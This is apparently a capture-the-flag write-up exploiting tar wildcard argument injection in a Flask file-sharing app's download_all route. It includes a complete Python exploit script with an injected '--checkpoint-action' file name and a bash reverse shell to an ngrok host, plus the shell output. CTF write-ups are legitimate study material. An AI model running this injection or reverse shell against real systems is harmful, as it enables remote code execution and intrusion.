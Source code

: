# Enterprice File Sharing

## Description

> For security reasons we only use enterprice grade cloud storage.

{% file src="../../.gitbook/assets/EFS.tar.gz" %}

## Solution

### Code Review

This, for the most part, seems like a standard file hosting site. Let's take a look at the validation.

First, uploaded files must have one of the allowed extensions.

```python
# We only allow files for serious business use-cases
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'doc', 'docx', 'xls', 'xlsx'}


def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

We also see that steps have been taken to normalize the file paths, to prevent directory traversal attacks using `../`.

```python
def normalize_file(filename):
    return filename.replace("..", "_")

...

@app.route('/upload', methods=["POST"])
def upload():
    if "ID" not in session:
        return redirect("/")

    if 'file' not in request.files:
        flash('No file part')
        return redirect("/")
    file = request.files['file']

    if file.filename == '':
        flash('No file selected')
        return redirect(request.url)

    if file and allowed_file(file.filename):
        f_content = file.stream.read()
        if len(f_content) > 1024:
            flash("Your file is too big! Buy premium to upload bigger files!")
            return redirect('/')
        filename = normalize_file(file.filename)
        with open(os.path.join(SESS_BASE_DIR, session["ID"], filename), "wb") as f:
            f.write(f_content)
            print(os.path.join(SESS_BASE_DIR, session["ID"], filename))
        return redirect("/")
    else:
        flash("Invalid file type submitted!")
        return redirect('/')

    return redirect("/")
```

What seems out of the ordinary, though, is the use of `os.system()` to execute a `tar` command when the user requests to download all uploaded files. Surely there's a library for that!

```python
@app.route('/download_all')
def download_all():
    if "ID" not in session:
        return redirect("/")

    sess_id = session["ID"]
    sess_dir = os.path.join(SESS_BASE_DIR, sess_id)

    res = os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *")
    if res != 0:
        flash("Something went wrong.")
        return redirect("/")
    return send_file(f"/tmp/{sess_id}.tgz", attachment_filename=f"{sess_id}.tgz")
```

### Wildcard Injection

I decided to pay closer attention to the system command: `cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *`.

A bit of research led me to a few very interesting papers, one of which was [this](https://www.exploit-db.com/papers/33930). Apparently, this is a class of Unix vulnerabilities where wildcards in commands can be abused to inject arguments!

For instance, if you have a file named `-rf`, and you execute `rm *`, the wildcard gets substituted with `-rf`, which is interpreted as a command line argument!

```
[root@defensecode public]# ls -al
total 20
drwxrwxr-x.  5 leon   leon   4096 Oct 28 17:04 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR3
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file3.txt
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
[root@defensecode public]# rm *
[root@defensecode public]# ls -al
total 8
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:05 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
```

Now, how can we abuse this in our use case? In `tar`, there is a `--checkpoint-action` option that will specify which program will be executed when a "checkpoint" is reached.

A common payload to exploit this would be two files:

* `--checkpoint-action=exec=sh shell.sh`
* `--checkpoint=1`

Now, the first file and the script are no problem - we can use `--checkpoint-action=exec=sh shell.txt` to perform argument pollution, which works because this ends with `.txt`.

We cannot use `checkpoint=1` , though, because this won’t pass the extension check.

Looking a bit more into the Tar manual, I saw that the default checkpoint number is 10, which means that the checkpoint action is performed every 10 records.

![](<../../.gitbook/assets/image (80) (1) (1).png>)

But how big is each record? Apparently, it's 20 512-byte blocks.

![](<../../.gitbook/assets/image (82) (1).png>)

So if we upload enough bytes, our tar archive will eventually exceed 10 records \* 20 blocks \* 512 bytes = 102400 bytes. Once that happens, we would have 10 records within the tar archive and the checkpoint action will be executed.

```python
import requests
import os

s = requests.session()

s.get("http://efs.rumble.host/")

with open("shell.txt", 'w') as f:
    f.write("bash -c \"bash -i >& /dev/tcp/6.tcp.ngrok.io/12843 0>&1\"")

with open("--checkpoint-action=exec=sh shell.txt", "w") as f:
    f.write("")

s.post("http://efs.rumble.host/upload",
    files = {"file": open("shell.txt", 'rb')}
)

s.post("http://efs.rumble.host/upload",
    files = {"file": open("--checkpoint-action=exec=sh shell.txt", 'rb')}
)

# Default record size for tar = 512 bytes * 20 = 10240 bytes
# Default checkpoint is 10 records
curr_bytes = 0
filename = 'a'

while curr_bytes < 10240 * 10:

    with open(filename + ".txt", 'wb') as f:
        f.write(os.urandom(1024))

    r = s.post("http://efs.rumble.host/upload",
        files = {"file": open(filename + ".txt", 'rb')}
    )

    print("Uploaded", filename + ".txt")
    filename += 'a'
    
    os.system("tar czf test.tgz a*.txt")
    with open("test.tgz", 'rb') as f:
        curr_bytes = len(f.read())
        print(f"Currently at {curr_bytes} bytes")

s.get("http://efs.rumble.host/download_all")
print(s.cookies.get_dict())
```

Once we request `/download_all` and the `tar` command is run, we get a shell.

```
gunicorn@8d66a32a984a:/$ cat flag.txt
cat flag.txt
CSR{shellscanbeannoying_greetsfromabudhabikek}
gunicorn@8d66a32a984a:/$
```
